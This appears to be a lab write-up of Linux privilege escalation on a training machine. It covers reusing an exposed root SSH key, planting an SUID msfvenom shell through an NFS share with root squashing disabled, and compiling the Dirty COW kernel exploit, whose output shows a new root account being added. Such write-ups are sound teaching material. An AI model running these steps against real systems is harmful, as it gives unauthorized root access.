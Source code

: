 ##  Passwords & Keys - SSH Keys

You can look for hidden files with `ls -la`. In the root directory there appears to be a hidden `.ssh` directory. In this directory there is a file called `root_key` which is clearly an RSA key.

Copying the contents over to the attacker machine and giving it the correct permissions with `chmod 600 root_key` allows us to login as the root user over ssh with `ssh -i root_key root@10.10.111.198`.

## NFS

Files created via NFS inherit the **remote** users ID. If the user is root and root squashing is enabled, the ID will instead be set to the "nobody" user.

The NFS share configuration can be checked with `cat etc/exports`.

Note that the `/tmp` share has root squashing disabled.

On the attacking machine we switch to the root user.

Create a mount point and mount the tmp share 

`mkdir /tmp/nfs`

`mount -o rw,vers=2 10.10.111.198:/tmp /tmp/nfs`

Generate a payload with msfvenom:
`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

On the victim machine we can run this file to get a root shell

**Questions**

    1. What is the name of the option that disables root squashing?

`no_root_squash`

## Kernel Exploits

Kernel exploits can leave the system in an unstable state, and they should be used as a last resort.

Run the "Linux Exploit Suggester 2" tool to identify potential kernel exploits on the current system: `perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl`

The popular Linux kernel exploit "Dirty COW" is listed 

An exploit is already on the machine, but in order to complete this task I will use one that I have sourced myself.

We will be using [this](https://www.exploit-db.com/exploits/40616 "ExploitDB") exploit. The exploit creates a new user with root privileges.

```
gcc -pthread 40839.c -o dirty -lcrypt
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fi2D0F2yP3cfM:0:0:pwned:/root:/bin/bash

mmap: 7f8799aa9000



ptrace 0
Done! Check /etc/passwd to see if the new user was created.
```